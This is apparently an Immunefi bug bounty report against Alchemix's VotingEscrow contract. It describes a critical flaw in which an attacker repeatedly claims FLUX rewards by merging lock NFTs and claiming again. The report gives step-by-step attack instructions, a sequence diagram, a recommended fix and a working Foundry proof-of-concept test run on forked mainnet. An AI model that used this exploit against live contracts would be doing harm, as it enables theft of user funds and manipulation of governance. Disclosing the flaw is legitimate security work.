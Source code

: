 
# Stealing FLUX by claiming, then merging positions and re-claiming.

Submitted on May 6th 2024 at 11:30:27 UTC by @infosec_us_team for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30800

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Protocol insolvency
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro

Attackers can claim more FLUX than accrued.

## Vulnerability Details

The attack vector is easy to understand.

**ATTACK VECTOR**

1- The attacker creates 2 (or more) locks in the *VotingEscrow*.
> For the sake of simplicity let's imagine he only created 2. We'll refer to the ids of the NFTs minted as `tokenId1` and `tokenId1`

2- Move forward in time to the next epoch.

3- The attacker calls `Voter.reset(tokenId1)` and accrues rewards for his token with id `tokenId1` based on the balance of BPT he deposited when minting the NFT.

4- The attacker claims the FLUX accrued by calling `flux.claimFlux(tokenId1, amount)`

5- The attacker merges the balance inside `tokenId1` with the balance inside `tokenId2` by calling `veALCX.merge(tokenId1, tokenId2);`

6- Now that his second NFT (`tokenId2`) has the double of BPT balance inside, he calls `Voter.reset(tokenId2)` and accrues rewards for his token with id `tokenId2`.

7- The attacker now claims the inflated FLUX accrued in `tokenId2` by calling `flux.claimFlux(tokenId2, inflated_amount)`

Here's a sequence diagram:
> After creating both locks the attacker must wait until the next epoch to proceed, we omitted the "wait" step in this diagram for simplicity.
```
 ┌────────┐                                      ┌──────┐┌─────┐┌────┐
 │Attacker│                                      │veALCX││Voter││FLUX│
 └───┬────┘                                      └──┬───┘└──┬──┘└─┬──┘
     │                                              │       │     │   
     │             createLock tokenId1              │       │     │   
     │─────────────────────────────────────────────>│       │     │   
     │                                              │       │     │   
     │             createLock tokenId2              │       │     │   
     │─────────────────────────────────────────────>│       │     │   
     │                                              │       │     │   
     │       reset tokenId1 + accrue tokenId1's FLUX│       │     │   
     │─────────────────────────────────────────────────────>│     │   
     │                                              │       │     │   
     │merge the BPT balance of tokenId1 and tokenId2│       │     │   
     │─────────────────────────────────────────────>│       │     │   
     │                                              │       │     │   
     │       reset tokenId2 + accrue tokenId2's FLUX│       │     │   
     │─────────────────────────────────────────────────────>│     │   
     │                                              │       │     │   
     │                       claim all FLUX         │       │     │   
     │───────────────────────────────────────────────────────────>│   
 ┌───┴────┐                                      ┌──┴───┐┌──┴──┐┌─┴──┐
 │Attacker│                                      │veALCX││Voter││FLUX│
 └────────┘                                      └──────┘└─────┘└────┘

```

If instead of doing it with 2 tokens, it is done with 3, after the last step the attacker can merge `tokenId2` with `tokenId3`, reset 3, and claim even more FLUX (a value relative to the full balance of `tokenId1` + the balance of `tokenId2` + the balance of `tokenId3`).

## Recommendation

When merging the balance of `tokenId1` into `tokenId2`, make sure to claim all `tokenId2`'s rewards if we are in a new epoch, before increasing the internal balance of `tokenId2`.

## Impact Details

FLUX can be used to boost the voting power of an NFT holder or as an ERC20 token that can be traded in the open market.

The consequences of gaming the system to claim more FLUX than accrued are:
- Protocol insolvency.
- Manipulation of governance voting.
- Direct theft of funds.


## Proof of Concept

Remember to run the code with the correct block number (the one used in your tests: 17133822)

We run the test executing:
```
forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/{API_KEY} --match-test testFluxAccrualAndMerge --fork-block-number 17133822 -vv
```
> Replace {API_KEY} with your API key.

To test how much FLUX the user should have accrued, add a comment to the "`veALCX.merge(tokenId1, tokenId2);`"

The code for the test:
```

    function testFluxAccrualAndMerge() public {

        address user = address(0x0123);

        uint256 tokenId1 = createVeAlcx(user, TOKEN_1, MAXTIME, true);
        uint256 tokenId2 = createVeAlcx(user, TOKEN_1, MAXTIME, true);

        hevm.startPrank(user);

        voter.reset(tokenId1);
        voter.reset(tokenId2);

        hevm.warp(newEpoch());
        voter.distribute();

        console2.log("balance of token1", veALCX.balanceOfTokenAt(tokenId1, block.timestamp));
        console2.log("balance of token2", veALCX.balanceOfTokenAt(tokenId2, block.timestamp));

        voter.reset(tokenId1);

        flux.claimFlux(tokenId1, flux.getUnclaimedFlux(tokenId1));

        veALCX.merge(tokenId1, tokenId2);

        voter.reset(tokenId2);

        flux.claimFlux(tokenId2, flux.getUnclaimedFlux(tokenId2));
        
        console2.log("balance of flux", flux.balanceOf(user));

        hevm.stopPrank();

    }

```
